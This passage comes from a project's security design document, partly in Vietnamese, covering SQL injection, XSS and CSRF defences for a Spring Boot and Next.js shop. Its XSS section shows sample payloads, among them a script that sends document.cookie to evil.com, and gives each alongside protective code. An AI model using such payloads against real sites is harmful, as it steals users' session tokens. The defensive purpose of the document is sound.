GRANT SELECT, INSERT, UPDATE, DELETE ON web3.* TO 'web3_app'@'localhost';
FLUSH PRIVILEGES;
```

### 5.10. SQL Injection Prevention Checklist

✅ **Implemented**:
- [x] Use JPA/Hibernate ORM
- [x] Parameterized queries (PreparedStatement)
- [x] No string concatenation in queries
- [x] Input validation with Bean Validation
- [x] Enum-based status values

⚠️ **Recommendations**:
- [ ] Use dedicated database user (not root)
- [ ] Implement stored procedures for sensitive operations
- [ ] Add database activity monitoring
- [ ] Regular security audits
- [ ] Implement query result size limits


## 6. XSS (Cross-Site Scripting) Protection

### 6.1. Tổng Quan XSS

XSS cho phép attacker inject malicious scripts vào web pages, có thể:
- Steal cookies và session tokens
- Redirect users to malicious sites
- Modify page content
- Capture keystrokes
- Perform actions on behalf of users

### 6.2. XSS Attack Types

**1. Stored XSS** (Persistent):
```javascript
// Attacker submits product review:
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

// Stored in database, executed when other users view the review
```

**2. Reflected XSS** (Non-persistent):
```
// Malicious URL:
https://example.com/search?q=<script>alert('XSS')</script>

// If server reflects input without sanitization:
<h1>Search results for: <script>alert('XSS')</script></h1>
```

**3. DOM-based XSS**:
```javascript
// Vulnerable code:
const name = location.hash.substring(1);
document.getElementById('welcome').innerHTML = 'Hello ' + name;

// Attack URL:
https://example.com/#
```

### 6.3. Backend XSS Prevention

#### 6.3.1. Output Encoding

Spring Boot automatically encodes output in templates:

**Thymeleaf** (if used):
```html
<!-- ✅ SAFE: Automatic HTML encoding -->
<p th:text="${userInput}"></p>
<!-- <script>alert('XSS')</script> becomes &lt;script&gt;alert('XSS')&lt;/script&gt; -->

<!-- ❌ DANGEROUS: Unescaped output -->
<p th:utext="${userInput}"></p>
<!-- Executes script! -->
```

**JSON responses** (Spring Boot):
```java
@RestController
public class ProductController {
    
    @GetMapping("/products/{id}")
    public ResponseEntity<ProductResponse> getProduct(@PathVariable Long id) {
        // ✅ SAFE: Jackson automatically escapes special characters in JSON
        ProductResponse product = productService.getById(id);
        return ResponseEntity.ok(product);
    }
}
```

Jackson JSON serialization:
```json
{
  "name": "<script>alert('XSS')</script>",
  "description": "Product description"
}
```
Becomes:
```json
{
  "name": "\\u003cscript\\u003ealert('XSS')\\u003c/script\\u003e",
  "description": "Product description"
}
```

#### 6.3.2. Input Sanitization

**Bean Validation**:
```java
public class ProductRequest {
    
    @NotBlank
    @Size(max = 200)
    @Pattern(regexp = "^[a-zA-Z0-9\\s\\-_.,()]+$", 
             message = "Product name contains invalid characters")
    private String name;
    
    @NotBlank
    @Size(max = 5000)
    private String description; // Will be sanitized before storage
}
```

**HTML Sanitization Library** (Recommended):
```java
import org.jsoup.Jsoup;
import org.jsoup.safety.Safelist;

@Service
public class ProductService {
    
    public ProductResponse createProduct(ProductRequest request) {
        // Sanitize HTML content
        String cleanDescription = Jsoup.clean(
            request.getDescription(), 
            Safelist.basic() // Allows <b>, <i>, <u>, <p>, etc. but not <script>
        );
        
        Product product = Product.builder()
            .name(request.getName())
            .description(cleanDescription)
            .build();
        
        return productRepository.save(product);
    }
}
```

**Dependency** (add to pom.xml):
```xml
<dependency>
    <groupId>org.jsoup</groupId>
    <artifactId>jsoup</artifactId>
    <version>1.17.2</version>
</dependency>
```

### 6.4. Frontend XSS Prevention

#### 6.4.1. React/Next.js Built-in Protection

**File**: `src/frontend/app/products/[id]/page.tsx`

```typescript
// ✅ SAFE: React automatically escapes content
<h1>{product.name}</h1>
// <script>alert('XSS')</script> is rendered as text, not executed

// ✅ SAFE: JSX expressions are escaped
<p>{product.description}</p>

// ❌ DANGEROUS: dangerouslySetInnerHTML bypasses protection
<div dangerouslySetInnerHTML={{ __html: product.description }} />
// Only use with sanitized content!
```

#### 6.4.2. DOMPurify for Rich Content

**When you need to render HTML** (e.g., rich text editor content):

```typescript
import DOMPurify from 'dompurify'

export default function ProductDetail({ product }) {
  // ✅ SAFE: Sanitize before rendering
  const sanitizedDescription = DOMPurify.sanitize(product.description, {
    ALLOWED_TAGS: ['b', 'i', 'u', 'p', 'br', 'strong', 'em'],
    ALLOWED_ATTR: []
  })
  
  return (
    <div dangerouslySetInnerHTML={{ __html: sanitizedDescription }} />
  )
}
```

**Installation**:
```bash
npm install dompurify
npm install --save-dev @types/dompurify
```

#### 6.4.3. Content Security Policy (CSP)

**File**: `next.config.js`

```javascript
const securityHeaders = [
  {
    key: 'Content-Security-Policy',
    value: [
      "default-src 'self'",
      "script-src 'self' 'unsafe-inline' 'unsafe-eval'", // ⚠️ Relax for Next.js
      "style-src 'self' 'unsafe-inline'",
      "img-src 'self' data: https:",
      "font-src 'self' data:",
      "connect-src 'self' http://localhost:8080 https://api-staging.sepay.vn",
      "frame-ancestors 'none'",
    ].join('; ')
  },
  {
    key: 'X-Content-Type-Options',
    value: 'nosniff'
  },
  {
    key: 'X-Frame-Options',
    value: 'DENY'
  },
  {
    key: 'X-XSS-Protection',
    value: '1; mode=block'
  },
  {
    key: 'Referrer-Policy',
    value: 'strict-origin-when-cross-origin'
  }
]

module.exports = {
  async headers() {
    return [
      {
        source: '/:path*',
        headers: securityHeaders,
      },
    ]
  },
}
```

**CSP Directives Explained**:
- `default-src 'self'`: Only load resources from same origin
- `script-src`: Control where scripts can be loaded from
- `style-src`: Control where stylesheets can be loaded from
- `img-src`: Control where images can be loaded from
- `connect-src`: Control AJAX/WebSocket connections
- `frame-ancestors 'none'`: Prevent clickjacking

#### 6.4.4. Secure Cookie Configuration

**File**: `src/frontend/lib/api.ts`

```typescript
// ✅ Current: Token in localStorage
localStorage.setItem('auth_token', token)

// ✅ Better: httpOnly cookie (if using cookie-based auth)
// Set-Cookie: token=xxx; HttpOnly; Secure; SameSite=Strict
```

**httpOnly cookies** prevent JavaScript access:
```javascript
// ❌ Cannot access httpOnly cookie
console.log(document.cookie) // token not visible

// ✅ Automatically sent with requests
fetch('/api/orders') // Cookie sent automatically
```

**Cookie attributes**:
- `HttpOnly`: Prevents JavaScript access (XSS protection)
- `Secure`: Only sent over HTTPS
- `SameSite=Strict`: Prevents CSRF attacks

### 6.5. XSS Prevention in User-Generated Content

**Example: Product Reviews**

```typescript
// Frontend submission
const submitReview = async (review: string) => {
  // ✅ Client-side validation
  if (review.length > 1000) {
    toast.error('Review too long')
    return
  }
  
  // Send to backend
  await api.post('/reviews', { content: review })
}

// Backend processing
@PostMapping("/reviews")
public ResponseEntity<?> createReview(@Valid @RequestBody ReviewRequest request) {
    // ✅ Sanitize HTML
    String cleanContent = Jsoup.clean(request.getContent(), Safelist.basic());
    
    // ✅ Additional validation
    if (cleanContent.length() > 1000) {
        throw new ValidationException("Review too long");
    }
    
    Review review = Review.builder()
        .content(cleanContent)
        .build();
    
    reviewRepository.save(review);
    return ResponseEntity.ok(ApiResponse.success("Review submitted"));
}

// Frontend display
<div className="review-content">
  {/* ✅ React escapes by default */}
  <p>{review.content}</p>
</div>
```

### 6.6. XSS Attack Examples & Prevention

**Example 1: Stored XSS in Product Name**

❌ Vulnerable:
```typescript
// No sanitization
<h1 dangerouslySetInnerHTML={{ __html: product.name }} />
```

Attack:
```
Product name: 
```

✅ Protected:
```typescript
// React automatic escaping
<h1>{product.name}</h1>
// Renders as text: 
```

**Example 2: DOM-based XSS in Search**

❌ Vulnerable:
```typescript
const searchTerm = new URLSearchParams(window.location.search).get('q')
document.getElementById('result').innerHTML = `Results for: ${searchTerm}`
```

✅ Protected:
```typescript
const searchTerm = new URLSearchParams(window.location.search).get('q')
// Use React state and JSX
<div>Results for: {searchTerm}</div>
```

**Example 3: XSS in URL Parameters**

❌ Vulnerable:
```typescript
const redirect = new URLSearchParams(window.location.search).get('redirect')
window.location.href = redirect // Can redirect to javascript:alert('XSS')
```

✅ Protected:
```typescript
const redirect = new URLSearchParams(window.location.search).get('redirect')
// Validate URL
if (redirect && redirect.startsWith('/')) {
  router.push(redirect) // Next.js router validates
}
```

### 6.7. XSS Prevention Checklist

✅ **Implemented**:
- [x] React automatic escaping
- [x] Jackson JSON encoding
- [x] Input validation with Bean Validation
- [x] No use of `dangerouslySetInnerHTML` without sanitization

⚠️ **Recommendations**:
- [ ] Add Jsoup for HTML sanitization
- [ ] Implement Content Security Policy (CSP)
- [ ] Use httpOnly cookies instead of localStorage
- [ ] Add DOMPurify for rich text content
- [ ] Regular security scanning for XSS vulnerabilities


## 7. CSRF (Cross-Site Request Forgery) Protection

### 7.1. Tổng Quan CSRF

CSRF là tấn công buộc người dùng đã xác thực thực hiện các hành động không mong muốn trên web application.

**Attack scenario**:
```html
<!-- Malicious website -->


<!-- If user is logged into bank.com, this executes automatically -->
```

### 7.2. Why CSRF is Disabled

**File**: `src/main/java/com/doan/WEB_TMDT/config/SecurityConfig.java`

```java
.csrf(AbstractHttpConfigurer::disable)
```

**Reasons**:
1. **Stateless JWT Authentication**: 
   - Tokens in Authorization header (not cookies)
   - Not automatically sent by browser
   - Attacker cannot forge requests

2. **SPA Architecture**:
   - Single Page Application
   - All requests via JavaScript (fetch/axios)
   - No traditional form submissions

3. **API-only Backend**:
   - RESTful API
   - No server-side rendered forms
   - CORS protection in place

### 7.3. CSRF Protection Comparison

**Traditional Session-based Auth** (CSRF vulnerable):
```
Browser automatically sends cookies with every request:
GET /api/orders HTTP/1.1
Cookie: JSESSIONID=abc123
```

**JWT in Header** (CSRF protected):
```
Token must be explicitly added by JavaScript:
GET /api/orders HTTP/1.1
Authorization: Bearer eyJhbGc...
```

Attacker cannot access localStorage or add custom headers from another domain.

### 7.4. When CSRF Protection is Needed

CSRF protection **IS required** when:
- Using session-based authentication (cookies)
- Using cookie-based JWT
- Server-side rendered forms
- State-changing GET requests

CSRF protection **NOT required** when:
- JWT in Authorization header
- Stateless API
- All requests via JavaScript

### 7.5. Alternative CSRF Protection (If Needed)

**If switching to cookie-based auth**:

```java
@Bean
public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
    http
        .csrf(csrf -> csrf
            .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            .csrfTokenRequestHandler(new SpaCsrfTokenRequestHandler())
        )
        .addFilterAfter(new CsrfCookieFilter(), BasicAuthenticationFilter.class);
    
    return http.build();
}

// Custom filter to ensure CSRF token is sent
class CsrfCookieFilter extends OncePerRequestFilter {
    @Override
    protected void doFilterInternal(HttpServletRequest request, 
                                    HttpServletResponse response, 
                                    FilterChain filterChain) {
        CsrfToken csrfToken = (CsrfToken) request.getAttribute("_csrf");
        csrfToken.getToken(); // Force token generation
        filterChain.doFilter(request, response);
    }
}
```

**Frontend implementation**:
```typescript
// Get CSRF token from cookie
const getCsrfToken = () => {
  const match = document.cookie.match(/XSRF-TOKEN=([^;]+)/)
  return match ? match[1] : null
}

// Add to requests
axios.interceptors.request.use(config => {
  const token = getCsrfToken()
  if (token) {
    config.headers['X-XSRF-TOKEN'] = token
  }
  return config
})
```

### 7.6. SameSite Cookie Attribute

**Additional CSRF protection** (if using cookies):

```java
@Bean
public CookieSerializer cookieSerializer() {
    DefaultCookieSerializer serializer = new DefaultCookieSerializer();
    serializer.setSameSite("Strict"); // or "Lax"
    serializer.setUseHttpOnlyCookie(true);
    serializer.setUseSecureCookie(true); // HTTPS only
    return serializer;
}
```

**SameSite values**:
- `Strict`: Cookie never sent in cross-site requests
- `Lax`: Cookie sent in top-level navigation (GET only)
- `None`: Cookie sent in all cross-site requests (requires Secure)

### 7.7. CORS as CSRF Mitigation

**File**: `src/main/java/com/doan/WEB_TMDT/config/SecurityConfig.java`

```java
@Bean
public CorsConfigurationSource corsConfigurationSource() {
    CorsConfiguration configuration = new CorsConfiguration();
    
    // ⚠️ Development: Allow all origins
    configuration.setAllowedOriginPatterns(Arrays.asList("*"));
    
    // ✅ Production: Restrict to specific domains
    // configuration.setAllowedOrigins(Arrays.asList(
    //     "https://yourdomain.com"
    // ));
    
    configuration.setAllowedMethods(Arrays.asList("GET", "POST", "PUT", "DELETE"));
    configuration.setAllowedHeaders(Arrays.asList("*"));
    configuration.setAllowCredentials(true);
    
    return source;
}
```

**CORS prevents**:
- Cross-origin requests from unauthorized domains
- Attacker websites from calling your API
- Complements CSRF protection

### 7.8. Webhook CSRF Considerations

**Webhooks are exempt from CSRF** because:
- External services (GHN, SePay) call them
- No user session involved
- Authenticated via signature verification

```java
// Webhook endpoints are public
.requestMatchers("/api/payment/sepay/webhook").permitAll()
.requestMatchers("/api/webhooks/**").permitAll()

// But protected by signature verification
@PostMapping("/api/payment/sepay/webhook")
public ResponseEntity<?> handleWebhook(@RequestBody WebhookRequest request) {
    // ✅ Verify signature
    if (!webhookService.verifySignature(request)) {
        return ResponseEntity.status(401).build();
    }
    
    // Process webhook
    webhookService.processPayment(request);
    return ResponseEntity.ok().build();
}
```

### 7.9. CSRF Prevention Best Practices

✅ **Current implementation**:
- [x] JWT in Authorization header (not cookies)
- [x] Stateless authentication
- [x] CORS configuration
- [x] No state-changing GET requests

⚠️ **If switching to cookies**:
- [ ] Enable CSRF protection
- [ ] Use SameSite cookie attribute
- [ ] Implement CSRF token validation
- [ ] Add CSRF token to all forms

### 7.10. State-Changing Request Protection

**Ensure all state-changing operations use POST/PUT/DELETE**:

✅ **Correct**:
```java
@PostMapping("/orders/{id}/confirm")
public ResponseEntity<?> confirmOrder(@PathVariable Long id) {
    // State-changing operation
}

@DeleteMapping("/products/{id}")
public ResponseEntity<?> deleteProduct(@PathVariable Long id) {
    // State-changing operation
}
```

❌ **Incorrect** (CSRF vulnerable):
```java
@GetMapping("/orders/{id}/confirm")
public ResponseEntity<?> confirmOrder(@PathVariable Long id) {
    // ❌ State change via GET - vulnerable to CSRF
}
```

**Why**: GET requests can be triggered by:
- `` tags
- `<link>` tags
- Browser prefetch
- URL in email/chat

### 7.11. Double Submit Cookie Pattern

**Alternative CSRF protection** (without server-side state):

```java
// Generate CSRF token
String csrfToken = UUID.randomUUID().toString();

// Set as cookie
Cookie cookie = new Cookie("CSRF-TOKEN", csrfToken);
cookie.setHttpOnly(false); // JavaScript needs to read it
cookie.setSecure(true);
cookie.setPath("/");
response.addCookie(cookie);

// Client must send token in header
// X-CSRF-TOKEN: {token}

// Server validates: cookie value == header value
```

**Frontend**:
```typescript
const csrfToken = getCookie('CSRF-TOKEN')

axios.post('/api/orders', data, {
  headers: {
    'X-CSRF-TOKEN': csrfToken
  }
})
```

**Why it works**:
- Attacker can trigger request with cookie
- But cannot read cookie value (Same-Origin Policy)
- Cannot set custom header with correct value

## 8. Additional Security Measures

### 8.1. HTTPS Enforcement

**Production configuration**:

```java
@Configuration
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http
            .requiresChannel(channel -> channel
                .anyRequest().requiresSecure() // Force HTTPS
            );
        
        return http.build();
    }
}
```

**Nginx configuration**:
```nginx
server {
    listen 80;
    server_name yourdomain.com;
    
    # Redirect HTTP to HTTPS
    return 301 https://$server_name$request_uri;
}

server {
    listen 443 ssl http2;
    server_name yourdomain.com;
    
    ssl_certificate /path/to/cert.pem;
    ssl_certificate_key /path/to/key.pem;
    
    # Modern SSL configuration
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers HIGH:!aNULL:!MD5;
    ssl_prefer_server_ciphers on;
    
    location / {
        proxy_pass http://localhost:8080;
    }
}
```

### 8.2. Security Headers

**Recommended headers**:

```java
@Bean
public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
    http
        .headers(headers -> headers
            .contentSecurityPolicy(csp -> csp
                .policyDirectives("default-src 'self'")
            )
            .frameOptions(frame -> frame.deny())
            .xssProtection(xss -> xss.block(true))
            .contentTypeOptions(Customizer.withDefaults())
        );
    
    return http.build();
}
```

**Headers explained**:
- `X-Content-Type-Options: nosniff`: Prevent MIME sniffing
- `X-Frame-Options: DENY`: Prevent clickjacking
- `X-XSS-Protection: 1; mode=block`: Enable browser XSS filter
- `Strict-Transport-Security`: Force HTTPS
- `Content-Security-Policy`: Control resource loading

### 8.3. Sensitive Data Protection

**Password in logs**:
```java
// ❌ Don't log passwords
log.info("User login: " + email + " " + password);

// ✅ Log only non-sensitive data
log.info("User login attempt: " + email);
```

**Sensitive data in responses**:
```java
@JsonIgnore
private String password;

@JsonProperty(access = JsonProperty.Access.WRITE_ONLY)
private String password;
```

**Database encryption** (for sensitive fields):
```java
@Convert(converter = AttributeEncryptor.class)
private String creditCardNumber;
```

### 8.4. Audit Logging

**Track security events**:

```java
@Aspect
@Component
public class SecurityAuditAspect {
    
    @AfterReturning("@annotation(PreAuthorize)")
    public void logSecurityAccess(JoinPoint joinPoint) {
        String user = SecurityContextHolder.getContext()
            .getAuthentication().getName();
        String method = joinPoint.getSignature().getName();
        
        log.info("Security access: user={}, method={}", user, method);
    }
    
    @AfterThrowing(pointcut = "@annotation(PreAuthorize)", 
                   throwing = "ex")
    public void logSecurityViolation(JoinPoint joinPoint, Exception ex) {
        String user = SecurityContextHolder.getContext()
            .getAuthentication().getName();
        String method = joinPoint.getSignature().getName();
        
        log.warn("Security violation: user={}, method={}, error={}", 
                 user, method, ex.getMessage());
    }
}
```

### 8.5. Dependency Security

**Check for vulnerabilities**:

```bash
# Maven dependency check
mvn dependency-check:check

# NPM audit
npm audit

# Fix vulnerabilities
npm audit fix
```

**Keep dependencies updated**:
```xml
<!-- pom.xml -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
    <version>3.2.0</version> <!-- Use latest stable -->
</dependency>
```

### 8.6. Error Handling Security

**Don't expose internal details**:

```java
@ExceptionHandler(Exception.class)
public ResponseEntity<?> handleException(Exception ex) {
    // ❌ Don't expose stack trace
    // return ResponseEntity.status(500).body(ex.getMessage());
    
    // ✅ Log internally, return generic message
    log.error("Internal error", ex);
    return ResponseEntity.status(500).body(
        ApiResponse.error("Lỗi hệ thống")
    );
}
```

## 9. Security Testing & Monitoring

### 9.1. Security Testing Checklist

- [ ] Penetration testing
- [ ] Vulnerability scanning
- [ ] Authentication bypass testing
- [ ] Authorization testing
- [ ] SQL injection testing
- [ ] XSS testing
- [ ] CSRF testing
- [ ] Session management testing

### 9.2. Monitoring & Alerting

**Log security events**:
- Failed login attempts
- Authorization failures
- Unusual API usage patterns
- Webhook signature failures
- Database errors

**Implement rate limiting** to prevent:
- Brute force attacks
- DDoS attacks
- API abuse

## 10. Tổng Kết

### 10.1. Điểm Mạnh

✅ **Implemented security measures**:
1. JWT authentication with HMAC-SHA256
2. BCrypt password hashing (cost factor 10)
3. Role-based access control (2-tier: Role + Position)
4. JPA/Hibernate prevents SQL injection
5. React automatic XSS protection
6. CORS configuration
7. Stateless session management
8. Input validation with Bean Validation

### 10.2. Khuyến Nghị Cải Tiến

⚠️ **High priority**:
1. Implement Content Security Policy (CSP)
2. Use dedicated database user (not root)
3. Add rate limiting
4. Implement refresh token mechanism
5. Add Jsoup for HTML sanitization
6. Enforce HTTPS in production

⚠️ **Medium priority**:
7. Add audit logging for sensitive operations
8. Implement password policy validation
9. Use httpOnly cookies instead of localStorage
10. Add security headers (HSTS, X-Frame-Options)
11. Regular dependency updates and security audits

⚠️ **Low priority**:
12. Implement two-factor authentication (2FA)
13. Add CAPTCHA for login/registration
14. Implement account lockout after failed attempts
15. Add IP whitelisting for admin endpoints

### 10.3. Compliance & Standards

**Tuân thủ**:
- OWASP Top 10 security risks
- GDPR data protection (if applicable)
- PCI DSS (if handling credit cards)

**Tài liệu tham khảo**:
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Spring Security Documentation](https://spring.io/projects/spring-security)
- [JWT Best Practices](https://tools.ietf.org/html/rfc8725)
- [NIST Password Guidelines](https://pages.nist.gov/800-63-3/)

---

**Ngày tạo**: 2024
**Phiên bản**: 1.0
**Trạng thái**: Hoàn thành
